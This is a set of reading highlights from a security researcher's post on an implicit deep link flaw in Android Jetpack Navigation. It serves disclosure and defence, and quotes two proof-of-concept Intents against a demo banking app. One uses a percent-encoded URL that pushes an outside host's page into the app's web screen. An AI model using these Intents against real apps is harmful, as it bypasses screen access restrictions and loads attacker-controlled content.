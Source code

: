 ```yaml
---
author: "admin"
aliases: "Android Jetpack Navigation: Go Even Deeper"
tags: RW_inbox, readwise/articles, Android
url: https://swarm.ptsecurity.com/android-jetpack-navigation-go-even-deeper/
date: 2024-11-22
---
```

# Android Jetpack Navigation: Go Even Deeper

![rw-book-cover](https://swarm.ptsecurity.com/wp-content/uploads/2024/08/63e8de2c-04f52ff568fe31133d40161426984aa4.png)

## Highlights


Previous research
 Some time ago, my colleague [discovered an interesting vulnerability](https://swarm.ptsecurity.com/android-jetpack-navigation-deep-links-handling-exploitation/) in the Jetpack Navigation library, which allows someone to open any screen of the application, bypassing existing restrictions for components that are not exported and therefore inaccessible to other applications. The issue lies with an implicit deep link processing mechanism, which any application on the device can interact with.
> [View Highlight](https://read.readwise.io/read/01jdac3pvr1aenjhqke4p9ydyr)



The issue with this warning is that, based on the documentation, it only concerns the [APIs for creating explicit deep links](https://developer.android.com/guide/navigation/design/deep-link#explicit) when the problem is actually much deeper.
> [View Highlight](https://read.readwise.io/read/01jdac49jwmeaz2ah7vfw38n3x)



Exploiting implicit deep links
> [View Highlight](https://read.readwise.io/read/01jdac4mvkazhswraac5e7p03c)



Here is the exploit code:
> [View Highlight](https://read.readwise.io/read/01jdac6p63a7sw2r7sa2x4n67p)



Intent().apply { setClassName("com.ptsecurity.supersecurebank", "com.ptsecurity.supersecurebank.MainActivity") data = Uri.parse("android-app://androidx.navigation/Main") startActivity(this) }
> [View Highlight](https://read.readwise.io/read/01jdac6cjx8g8a4xjzrg09bkc3)



Intent().apply { setClassName("com.ptsecurity.supersecurebank", "com.ptsecurity.supersecurebank.MainActivity") data = Uri.parse("android-app://androidx.navigation/WebContent/%68%74%74%70%73%3a%2f%2f%33%35%36%6d%39%61%6d%39%32%35%32%64%65%6f%74%76%66%73%35%7a%71%62%69%31%6c%73%72%6a%66%39%33%79%2e%6f%61%73%74%69%66%79%2e%63%6f%6d") startActivity(this) }
> [View Highlight](https://read.readwise.io/read/01jdac79dt12ky8asrra4n14ex)



Investigating the problem of implicit deep links
 First, let’s explore the issue in the debugger, and then find the source code that made this vulnerability possible. We’ll set a breakpoint in the code executed during the transition. After examining the objects in memory, you can see that by the time the transition to the screen occurs, an implicit deep link has already been created without any involvement from the developer.
> [View Highlight](https://read.readwise.io/read/01jdac8382n17pseqwwdbjck6z)



After this function is executed, the deep link `android-app://androidx.navigation/WebContent/{url}` will appear in the application, which can be accessed from another application by passing the url parameter without any restrictions.
> [View Highlight](https://read.readwise.io/read/01jdac8pqr9t5jm8megfw1sx0j)



Conclusions
 There have been [many](https://people.cs.vt.edu/gangwang/deep17.pdf) [different](https://hackerone.com/reports/401793) [publications](https://ash-king.co.uk/blog/facebook-bug-bounty-09-18) about the risks related to deep links. The issue is well known to security researchers. Errors related to explicit deep links are regularly found and exploited by attackers. It’s hard to understand why anyone would want to make the issue more complicated than it already is.
 What should application developers do? The most obvious advice is **not to use this library**.
> [View Highlight](https://read.readwise.io/read/01jdac96hj0f4f4qcxb7fxjczx)

